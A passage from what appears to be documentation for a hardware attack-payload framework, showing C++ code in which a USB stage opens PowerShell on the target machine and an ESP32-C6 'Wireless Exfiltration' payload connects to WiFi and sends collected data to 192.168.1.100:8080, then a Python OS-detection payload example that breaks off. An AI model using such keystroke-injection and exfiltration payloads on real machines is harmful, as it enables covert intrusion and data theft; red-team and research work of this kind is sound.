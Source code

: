 ```cpp
    Keyboard::sendString("powershell");
    Keyboard::sendKey(KEY_RETURN);
    
    // Signal wireless component to start its part
    InterChip::triggerEvent(TRIGGER_USB_STAGE_COMPLETE);
  }
}

// Wireless Payload for ESP32-C6 (wireless_component.c)
#include "payload_framework.h"
#include "shared_definitions.h"

PAYLOAD_INFO("Wireless Exfiltration", "1.0", PAYLOAD_PRIORITY_NORMAL);

void payload_main(PayloadContext* ctx) {
  // Wait for signal from USB component
  InterChip::waitForEvent(TRIGGER_USB_STAGE_COMPLETE);
  
  // Start wireless reconnaissance
  WiFi::scanNetworks();
  
  // Establish connection and exfiltrate data
  if (WiFi::connect("target_network", "password")) {
    Exfiltration::sendData("192.168.1.100", 8080, CollectedData::getBuffer());
  }
}
```

## Python Payload Support

The project supports writing payloads in Python through Pythran, a Python-to-C++ compiler that leverages LLVM. This allows you to write your payload logic in high-level Python code, which is then compiled to native code for optimal performance on the device.

### Python Payload Example

```python
# os_detect.py - Python payload for OS detection
#pythran export payload_main(int*, str*, str*)

# These constants match the C API
OS_UNKNOWN = 0
OS_WINDOWS = 1
OS_MACOS = 2
OS_LINUX = 3
OS_CHROMEOS = 4

# Key codes
KEY_R = 0x15
KEY_RETURN = 0x28
KEY_SPACE = 0x2C
KEY_T = 0x17

# Modifiers
MOD_LCTRL = 0x01
MOD_LALT = 0x04
MOD_LMETA = 0x08 # Windows/Command key

def payload_main(context):
    # Set LED to yellow during detection
    led_set_color(255, 255, 0, 0)
    
    # Get detected OS from context
```